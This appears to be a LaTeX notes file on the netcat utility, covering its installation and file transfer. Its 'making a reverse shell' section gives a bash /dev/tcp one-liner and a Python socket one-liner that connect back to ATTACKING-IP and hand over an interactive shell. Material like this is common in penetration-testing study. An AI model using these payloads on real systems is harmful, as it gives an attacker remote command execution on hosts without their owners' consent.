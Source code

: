 \section{netcat}

Netcat is a featured networking utility which reads and writes data across
network connections, using the TCP/IP protocol.

\subsection{installation}

\begin{verbatim}
yum erase nc
wget http://vault.centos.org/6.6/os/x86_64/Packages/nc-1.84-22.el6.x86_64.rpm
rpm -iUv nc-1.84-22.el6.x86_64.rpm
\end{verbatim}

\subsection{file transfer}
\begin{verbatim}
receiver# nc -l 1236 > file_to_receive
sender#nc $receiver_ip 1236 < file_to_send
\end{verbatim}

\subsection{making a reverse shell}
On source host, start a netcat listening on some port:
\begin{verbatim}
nc -l ATTACKING-IP 80
\end{verbatim}
ATTACKING-IP can be ommited.

On target host, connect to this port:
\begin{verbatim}
bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1
\end{verbatim}

Now the source host can execute any command on the target.

This can set up a communication channel by which the source can send messages to
the target.
\begin{lstlisting}
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
\end{lstlisting}

Here is a \href{https://highon.coffee/blog/reverse-shell-cheat-sheet/}{reverse
shell cheatsheet} for other techniques.




